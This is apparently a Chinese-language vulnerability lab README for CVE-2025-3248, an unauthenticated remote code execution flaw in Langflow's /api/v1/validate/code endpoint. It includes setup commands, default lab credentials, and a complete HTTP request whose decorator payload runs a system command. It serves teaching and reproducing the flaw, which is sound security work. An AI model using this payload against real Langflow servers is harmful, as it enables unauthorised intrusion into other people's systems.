

# Langflow `validate/code` API未授权远程代码执行漏洞（CVE-2025-3248）

Langflow是一个流行的开源AI工作流可视化工具，允许用户通过Web界面拖拽式构建基于Python的智能体和数据处理流程。

在1.3.0版本之前，Langflow存在一个严重的未授权远程代码执行漏洞（CVE-2025-3248）。`/api/v1/validate/code`接口原本用来校验用户提交的Python代码是否合法，其内部通过`ast`解析代码后，使用`exec`执行所有函数定义。然而，Python的装饰器和默认参数表达式也会在函数定义时被执行，攻击者可以通过精心构造的装饰器或默认参数，在未授权的情况下实现任意代码执行。

参考链接：

- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

## 环境启动

执行如下命令启动Langflow 1.2.0漏洞环境：

```
docker compose up -d
```

服务启动后，Web界面可通过`http://your-ip:7860`访问。你可以通过默认账号`administrator:vulhub`登录管理后台。

## 漏洞复现

直接向`/api/v1/validate/code`接口发送包含恶意装饰器的Python函数定义，即可来实现远程命令执行：

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```


